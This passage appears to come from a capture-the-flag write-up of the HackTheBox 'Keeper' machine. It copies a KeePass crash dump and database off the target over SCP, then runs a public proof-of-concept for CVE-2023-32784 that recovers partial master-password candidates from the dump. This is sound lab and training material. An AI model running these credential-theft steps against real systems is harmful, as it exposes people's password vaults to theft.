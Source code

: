 
We note here the file "RT30000.zip", which seems to refer to the ticket #30000, where Lise Nørgaard have replied she saved the crash dump to her home directory.

We can download this file to our attack box by SCP:

```shell
scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .
```

And extract it :

```shell
unzip RT30000.zip 
```

```text
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx  
```

We have the keepass database, and the memory dump.
### Privilege Escalation

Some investigation will lead to CVE-2023-32784 : https://nvd.nist.gov/vuln/detail/cve-2023-32784

> In KeePass 2.x before 2.54, it is possible to recover the cleartext master password from a memory dump, even when a workspace is locked or no longer running. The memory dump can be a KeePass process dump, swap file (pagefile.sys), hibernation file (hiberfil.sys), or RAM dump of the entire system. The first character cannot be recovered. In 2.54, there is different API usage and/or random string insertion for mitigation.

We have to find an exploit :

> search: site:github.com Keepass memory dump master pass

One is quickly found : https://github.com/CMEPW/keepass-dump-masterkey

This is a single python file, we can download and execute :

```text
python3 ./poc.py KeePassDumpFull.dmp 
[.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```
